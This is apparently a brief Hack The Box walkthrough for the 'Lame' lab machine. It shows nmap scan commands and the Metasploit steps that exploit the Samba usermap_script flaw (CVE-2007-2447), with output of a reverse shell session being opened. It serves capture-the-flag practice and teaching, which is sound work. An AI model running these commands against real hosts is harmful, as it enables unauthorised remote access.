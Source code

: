  WalkthroughLameHackTheBox
 
We will learn the following:
- Using nmap to find opened ports & running services (https://nmap.org/)
- Searching for public exploits for vulnerable services (https://www.metasploit.com/)
- Download and install required tools/libraries to run exploit on target machine
- Reverse shell on target machine

Let's go:
excute on command line (zhs :) )
(sudo) nmap -sC -sV -p- -T4 RemoteIp or 
(sudo) nmap -A RemoteIp or 
(sudo) nmap -T4 - A -V RemoteIp

go to samba target (CVE-2007-2447 with metasploit framework)

sudo msfdb init && msfconsole

msf6>
msf6> use exploit/multi/samba/usermap_script
msf6 exploit(multi/samba/usermap_script) > set lhost LocalIp (set your localhost ip in vpn tunnel, if necessary)
msf6 exploit(multi/samba/usermap_script) > set rhost RemoteIp (set Remote host ip>
msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on LocalIp:4444 
[*] Command shell session 1 opened (LocalIp:4444 -> RemoteIp:43178)

We are in
feel free to run commands
like >_ uname -r & pwd & ls

Hug!
>_JMP
